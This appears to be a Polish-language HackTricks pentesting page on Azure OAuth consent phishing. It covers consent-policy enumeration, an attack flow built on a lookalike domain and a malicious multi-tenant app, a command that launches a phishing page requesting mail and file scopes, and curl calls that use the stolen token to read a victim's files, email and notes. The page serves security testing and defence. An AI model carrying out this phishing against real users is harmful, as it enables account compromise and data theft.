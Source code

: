 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## Phishing aplikacji OAuth

**Aplikacje Azure** są konfigurowane z uprawnieniami, które będą mogły być używane, gdy użytkownik wyrazi zgodę na aplikację (takimi jak enumeracja katalogu, dostęp do plików lub wykonywanie innych działań). Należy pamiętać, że aplikacja będzie działać w imieniu użytkownika, więc nawet jeśli aplikacja może prosić o uprawnienia administracyjne, jeśli **użytkownik, który wyraża zgodę, nie ma tych uprawnień**, aplikacja **nie będzie mogła wykonywać działań administracyjnych**.

### Uprawnienia zgody aplikacji

Domyślnie każdy **użytkownik może wyrazić zgodę na aplikacje**, chociaż można to skonfigurować tak, aby użytkownicy mogli wyrażać zgodę tylko na **aplikacje od zweryfikowanych wydawców dla wybranych uprawnień** lub nawet **usunąć uprawnienie** dla użytkowników do wyrażania zgody na aplikacje.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

Jeśli użytkownicy nie mogą wyrażać zgody, **administratorzy** tacy jak `GA`, `Administrator aplikacji` lub `Administrator aplikacji w chmurze` mogą **wyrażać zgodę na aplikacje**, z których użytkownicy będą mogli korzystać.

Co więcej, jeśli użytkownicy mogą wyrażać zgodę tylko na aplikacje z **niskim ryzykiem** uprawnień, te uprawnienia to domyślnie **openid**, **profil**, **email**, **User.Read** i **offline_access**, chociaż możliwe jest **dodanie więcej** do tej listy.

A jeśli mogą wyrażać zgodę na wszystkie aplikacje, mogą wyrażać zgodę na wszystkie aplikacje.

### 2 Typy ataków

- **Nieautoryzowany**: Z zewnętrznego konta utwórz aplikację z **niskim ryzykiem** uprawnień `User.Read` i `User.ReadBasic.All`, na przykład, phishinguj użytkownika, a będziesz mógł uzyskać dostęp do informacji katalogowych.
- To wymaga, aby phishingowany użytkownik był **w stanie zaakceptować aplikacje OAuth z zewnętrznego najemcy**.
- Jeśli phishingowany użytkownik jest jakimś administratorem, który może **wyrażać zgodę na każdą aplikację z dowolnymi uprawnieniami**, aplikacja może również **żądać uprawnień uprzywilejowanych**.
- **Autoryzowany**: Po skompromitowaniu podmiotu z wystarczającymi uprawnieniami, **utwórz aplikację w ramach konta** i **phishinguj** jakiegoś **uprzywilejowanego** użytkownika, który może zaakceptować uprzywilejowane uprawnienia OAuth.
- W tym przypadku możesz już uzyskać dostęp do informacji katalogowych, więc uprawnienie `User.ReadBasic.All` nie jest już interesujące.
- Prawdopodobnie interesują Cię **uprawnienia, które wymagają zgody administratora**, ponieważ zwykły użytkownik nie może przyznać aplikacjom OAuth żadnych uprawnień, dlatego musisz **phishingować tylko tych użytkowników** (więcej na temat ról/uprawnień, które przyznają to uprawnienie później).

### Użytkownicy mogą wyrażać zgodę

Zauważ, że musisz wykonać to polecenie z konta użytkownika wewnątrz najemcy, nie możesz znaleźć tej konfiguracji najemcy z zewnętrznego. Następujące polecenie CLI może pomóc Ci zrozumieć uprawnienia użytkowników:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Użytkownicy mogą wyrażać zgodę na wszystkie aplikacje: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy`, to użytkownicy mogą akceptować każdą aplikację.
- Użytkownicy mogą wyrażać zgodę na aplikacje od zweryfikowanych wydawców lub twojej organizacji, ale tylko na uprawnienia, które wybierzesz: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy mogą akceptować każdą aplikację.
- **Wyłącz zgodę użytkownika**: Jeśli w **`permissionGrantPoliciesAssigned`** znajdziesz tylko: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` i `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`, to użytkownicy nie mogą wyrażać zgody na żadne.

Możliwe jest znalezienie znaczenia każdej z komentowanych polityk w:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Administratorzy aplikacji**

Sprawdź użytkowników, którzy są uważani za administratorów aplikacji (mogą akceptować nowe aplikacje):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Przegląd Przepływu Ataku**

Atak składa się z kilku kroków, które mają na celu zaatakowanie ogólnej firmy. Oto jak może się to rozwinąć:

1. **Rejestracja Domeny i Hosting Aplikacji**: Atakujący rejestruje domenę przypominającą zaufaną stronę, na przykład "safedomainlogin.com". Pod tą domeną tworzona jest subdomena (np. "companyname.safedomainlogin.com"), aby hostować aplikację zaprojektowaną do przechwytywania kodów autoryzacyjnych i żądania tokenów dostępu.
2. **Rejestracja Aplikacji w Azure AD**: Atakujący następnie rejestruje aplikację wielo-tenantową w swoim dzierżawcy Azure AD, nazywając ją imieniem docelowej firmy, aby wyglądała na legalną. Konfiguruje URL przekierowania aplikacji, aby wskazywał na subdomenę hostującą złośliwą aplikację.
3. **Ustawienie Uprawnień**: Atakujący ustawia aplikację z różnymi uprawnieniami API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Te uprawnienia, po przyznaniu przez użytkownika, pozwalają atakującemu na wyciąganie wrażliwych informacji w imieniu użytkownika.
4. **Dystrybucja Złośliwych Linków**: Atakujący tworzy link zawierający identyfikator klienta złośliwej aplikacji i dzieli się nim z docelowymi użytkownikami, oszukując ich, aby przyznali zgodę.

## Przykład Ataku

1. Zarejestruj **nową aplikację**. Może być tylko dla bieżącego katalogu, jeśli używasz użytkownika z zaatakowanego katalogu, lub dla dowolnego katalogu, jeśli jest to atak zewnętrzny (jak na poniższym obrazku).
1. Ustaw również **URI przekierowania** na oczekiwaną stronę, na której chcesz otrzymać kod do uzyskania tokenów (`http://localhost:8000/callback` domyślnie).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Następnie utwórz sekret aplikacji:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Wybierz uprawnienia API (np. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Wykonaj stronę internetową (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**, która prosi o uprawnienia:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Wyślij URL do ofiary**
1. W tym przypadku `http://localhost:8000`
6. **Ofiary** muszą **zaakceptować monit:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Użyj **tokena dostępu, aby uzyskać żądane uprawnienia**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Inne narzędzia

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Sprawdź [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer), aby dowiedzieć się, jak go skonfigurować.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-eksploatacja

### Phishing po eksploatacji

W zależności od żądanych uprawnień możesz być w stanie **uzyskać dostęp do różnych danych najemcy** (lista użytkowników, grup... lub nawet modyfikować ustawienia) oraz **informacji o użytkowniku** (pliki, notatki, e-maile...). Następnie możesz wykorzystać te uprawnienia do wykonania tych działań.

### Aplikacja po eksploatacji

Sprawdź sekcje Aplikacje i Główne zasady usługi na stronie:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Odniesienia

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
